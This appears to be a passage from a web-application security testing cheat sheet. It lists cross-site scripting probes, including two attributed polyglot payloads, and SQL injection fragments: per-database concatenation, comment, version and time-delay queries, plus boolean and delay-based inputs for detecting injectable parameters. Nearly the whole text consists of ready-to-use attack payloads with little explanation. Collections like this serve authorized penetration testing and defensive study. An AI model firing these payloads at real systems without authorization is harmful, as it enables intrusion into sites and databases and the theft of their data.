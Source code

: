 ```

alert`1`

'-alert()-’
';alert();//
\’-alert(1)//
```

***Polyglot payloads***

```
0xsobky
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

Mathias Karlsson
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```

## SQL Injection
Review the following site for a cheat sheet showing specific requirements and payloads for the most common databases. This will help tailor the following payloads to your environment. For example, if your application uses MySQL, replace the `--` in the commands below with `#`.

https://portswigger.net/web-security/sql-injection/cheat-sheet

```
Oracle Concat: 'foo’||’bar’
Oracle Comment: --comment
Oracle Version: SELECT banner FROM v$version
Oracle Time Delay:dbms_pipe.receive_message(('a’),10)

Microsoft Concat:'foo’+'bar’
Microsoft Comment: --comment or can use: /**comment*/*
Microsoft Version: SELECT @@version
Microsoft Time Delay:WAITFOR DELAY '0:0:10’

PostgreSQL Concat:'foo’||'bar’
PostgreSQL Comment: --comment or can use: /**comment*/*
PostgreSQL Version: SELECT version()
PostgreSQL Time Delay:SELECT pg_sleep(10)

MySQL Concat: 'foo’ 'bar’ or can use CONCAT('foo’,'bar’)
MySQL Comment: -- (space after the double dash) or can use: /**comment*/*
MySQL Version: SELECT @@version
MySQL Time Delay: SELECT SLEEP(10)

'
''
’ AND '1’=’1
’ AND '1’=’2

In MS-SQL we can use these queries to determine if the app is vulnerable to sql injection by using delays:
'; waitfor delay '0:30:0’--
1; waitfor delay '0:30:0’--
1)waitfor delay’0:0:10’--

Here are similar examples for PostgreSQL:
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))

(SELECT 1)
(SELECT 1+1)
```